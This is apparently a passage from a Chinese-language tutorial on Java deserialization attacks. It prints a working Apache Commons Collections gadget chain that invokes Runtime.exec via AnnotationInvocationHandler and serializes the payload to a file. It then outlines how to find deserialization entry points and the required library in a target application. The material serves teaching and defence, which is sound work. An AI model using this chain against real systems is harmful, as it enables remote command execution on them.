 注：只需要使用前面构造的Map来构造AnnotationInvocationHandler,进行序列化,当触发readObject()反序列 化的时候,就能实现命令执行。另外需要注意的是,想要在调用未包含的package中的构造函数,我们必须通过反射的方式。

4）使用AnnotationInvocationHandler构造执行命令

```
public static void main(String[] args) throws Exception {
    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class},new Object[]{"getRuntime", new Class[0]}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{null, new Object[0]}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    Transformer transformerChain = new ChainedTransformer(transformers);
    Map innerMap = new HashMap();
    innerMap.put("value", "value");
    Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        
    Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
    ctor.setAccessible(true);
    Object instance = ctor.newInstance(Override.class, outerMap);
        
    //序列化对象到文件
    File f = new File("d:/payload.bin");
    ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
    out.writeObject(instance);
    out.flush();
    out.close();
    //从文件中反序列化
    ObjectInputStream in=new ObjectInputStream(new FileInputStream(f));
    in.readObject();
    in.close();
}
```

查看序列化输出文件d:/payload.bin，发现文档前6个字节内容为：ac ed 00 05 73 72

需要注意的是,想要在调用未包含的package中的构造函数,必须通过反射的方式。即这里想要构造AnnotationInvocationHandler实例，需要先获取其构造函数。

注：实际运行时并没有弹出计算器。

### 7. 漏洞利用

1）查找漏洞触发点

首先拿到一个Java应用,需要找到一个接受外部输入的序列化对象的接收点,即反序列化漏洞的触发点。可以通过审计源码中对反序列化函数的调用(例如 readObject())来寻找,也可以直接通过对应用交互流量进行抓包,查看流量中是否包含java序列化数据来判断,java序列化数据的特征为以 标记(ac ed 00 05)开头。

2）确认collections的jar包

确定了反序列化输入点后,再考察应用的Class Path中是否包含Apache Commons Collections库

3）这里进行一个简单的测试
